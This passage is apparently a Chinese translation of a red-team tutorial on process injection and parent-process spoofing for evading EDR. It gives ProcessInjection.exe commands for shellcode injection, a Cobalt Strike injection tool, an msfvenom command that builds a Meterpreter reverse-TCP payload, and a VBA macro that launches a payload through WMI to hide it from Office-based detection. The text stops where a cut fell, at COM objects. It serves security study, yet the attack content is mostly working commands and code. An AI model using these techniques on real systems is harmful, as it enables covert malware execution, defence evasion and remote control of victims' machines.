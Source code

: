ProcessInjection **.** exe  **/** ppath **:** "C:\Windows\System32\calc.exe"  **/** path **:** "pentestlab.txt"  **/** parentproc **:** explorer  **/** f **:** hex  **/** t **:** **6**

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4024.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132240-47c86b02-0ddd-1.png)
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4025.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132254-4fae51f6-0ddd-1.png)
该工具还支持带有异步过程调用的进程注入，对于更隐蔽的方法shellcode的执行将发生在目标进程的主线程的入口点之前

ProcessInjection **.** exe  **/** ppath **:** "C:\Windows\System32\calc.exe"  **/** path **:** "pentestlab.txt"  **/** parentproc **:** explorer  **/** f **:** hex  **/** t **:** **8**

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4026.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132324-61df7684-0ddd-1.png)
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4037.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132337-699826b4-0ddd-1.png)
一个名为[Remote ProcessInjection](https://github.com/Mr-Un1k0d3r/RemoteProcessInjection "Remote ProcessInjection")的c#实用程序也能够执行进程注入，该工具是为Cobalt Strike设计的，并接受base-64的有效载荷，Msfvenom可以生成原始的ShellCode，之后将该Shell Code转换为base-64：

msfvenom  **-** p windows **/** x64 **/** meterpreter **/** reverse_tcp  **-** f raw  **-** o payload64 **.** bin LHOST **=** **10.0.0.13** LPORT **=** **4444**base64  **-** i  **/** root **/** payload64 **.** bin **>** payload64 **.** txt

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4038.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132421-839d8dba-0ddd-1.png)
ShellCode将被注入到目标进程中，尽管它没有利用"CreateProcess"API来欺骗父进程，但它提供了在合法的WIndows进程中隐藏恶意软件的能力：

RemoteInject64 **.** exe **4272**  **&#x3c;** base64 **-** shellcode**>**

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4039.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132442-909b40fc-0ddd-1.png)
有效负载将从目标进程的内存地址空间执行，进程注入方法与Metasploit的"migrate" 命令相似，都使用相同的Windows API
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4049.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132501-9b7cbe88-0ddd-1.png)

## **VBA**

Microsoft Office一直是非常受欢迎的恶意软件中间应用，因为它帮助红队在目标内部环境获得最初的立足点，然而以宏的形式执行恶意代码将会创建任意的子进程，这很容易被具有分析进程的父和子关系之间的异常的能力的EDR发现。
有多种方法可用于逃避对提供父/子关系检测的EDR产品，例如，VBScript可以调用其他系统资源来执行恶意软件，如WMI、COM或计划任务，父进程可以不是Windows Word，而是Windows操作系统的进程，以下宏将使用wmi(Windows Management Instrumentation)来创建新进程

Sub Parent**()**

Set objWMIService **=** GetObject **(** "winmgmts: **{** impersonationLevel **=** impersonate **}**  **!** \\ **.** \root\cimv2")Set objStartup **=** objWMIService **.** Get **(** "Win32_ProcessStartup" **)** Set objConfig **=** objStartup **.** SpawnInstance_Set objProcess **=** GetObject **(** "winmgmts:root\cimv2:Win32_Process" **)** errReturn **=** objProcess **.** Create **(** "C:\Temp\pentestlab.exe"**,** Null**,** objConfig**,** intProcessID**)**

End Sub

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps404A.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132537-b146c4ac-0ddd-1.png)
这种方法的好处是创建的进程将在"WmiPrvSE.exe"下生成，而不是Office进程
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps405B.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132557-bcdb0544-0ddd-1.png)
之后将会返回一个Meterpreter会话：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps406C.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132615-c783c5f8-0ddd-1.png)
COM对象也可以用来执行新的进程：
